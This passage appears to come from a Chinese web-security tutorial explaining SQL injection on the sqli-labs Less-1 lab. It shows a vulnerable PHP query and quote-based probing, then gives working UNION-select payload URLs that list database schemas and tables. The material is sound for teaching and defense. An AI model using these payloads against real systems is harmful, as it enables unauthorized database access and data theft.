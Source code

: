 这段代码，接收一个名为 "id" 的参数，并使用该参数从数据库中检索信息。如果能够检索到信息，则会输出用户名和密码；如果检索失败，则会输出一条错误消息。在每次运行时，代码还会将传入的 "id" 参数记录到 "result.txt" 文件中。


## 2.2、原理分析
SQL注入就是指Web应用程序**对用户输入数据的合法性没有判断，前端传入后端的参数是攻击者可控的，并且参数带入数据库查询，攻击者可以通过构造不同的**SQL语句来实现对数据库的任意操作。	

**sql注入漏洞的产生需要满足以下两个条件：**

1. 参数用户可控：前端传给后端的参数内容是用户可以控制的。
2. 参数代入数据库查询：传入的参数拼接到SQL语句，且带入数据库查询。

上面代码的SQL语句为：
```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"
```

当传入的参数为`1`时<br />查询语句为：`SELECT * FROM users WHERE id='1' LIMIT 0,1`<br />页面返回正常

当传入的参数为`1'`时<br />查询语句为：`SELECT * FROM users WHERE id='1'' LIMIT 0,1`这不符合规范<br />页面报错

当传入的参数为`1'--+`时<br />查询语句为：`SELECT * FROM users WHERE id='1'--+' LIMIT 0,1`<br />此时实际执行的语句为：`SELECT * FROM users WHERE id='1'`<br />页面返回正常，说明存在Union注入。

由此可以初步判断ID参数存在SQL注入漏洞,可以进一步拼接SQL语句进行攻击。

查看数据库
```sql
http://192.168.1.8/Less-1/?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+
```
![image.png](../../_img/02-Web安全/01-基础知识/1671086549896-3b9d6213-f8bf-409d-99ae-5746dcd4e7ff.png)

查询security库里面的表
```sql
http://192.168.1.8/Less-1/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
```
![image.png](../../_img/02-Web安全/01-基础知识/1671086603596-2ec6ff62-2a15-4241-9268-f9f217bc892b.png)
